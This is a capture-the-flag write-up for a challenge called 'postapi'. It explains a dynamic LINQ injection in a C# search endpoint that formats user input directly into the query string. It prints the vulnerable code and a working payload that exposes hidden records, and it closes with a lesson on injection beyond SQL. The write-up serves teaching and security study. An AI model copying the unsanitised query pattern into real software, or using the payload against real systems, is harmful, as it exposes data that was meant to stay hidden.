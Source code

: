 # postapi

## Solution

Looking at the `search` endpoint, we see that user input is put verbatim into a LINQ query, using dynamic LINQ, without any sanitation.

```csharp
app.MapGet("/search", ([FromQuery] string? query, PostcodeDb db) => {
    if (query == null)
        query = "";
    return db.Postcodes.Where(String.Format("Hidden == false && (Name.Contains(\"{0}\"))", query)).ToList();
});
```

As this is a dynamic LINQ query, we can inject any querying logic (limited
subset of C#) into the query. As dynamic LINQ does not support comments, we
need to make sure that the query is valid after injection.

As we, most likely, want to see a hidden postcode and keeping in mind that
extra pair of parentheses in the query, we can inject the payload

```csharp
")) or Hidden==True or Name=(("
```

making the query, after injection

```csharp
"Hidden == false && (Name.Contains("")) or Hidden==True or Name=((""))"
```

## Takeaway

It's not just when dealing with SQL when we have to be careful about injection
attacks. Injection attacks can happen wherever user input is put into any
interpreted context. We, therefore, must take care to identify what is an
interpreted context and also what is unsafe input (user input).
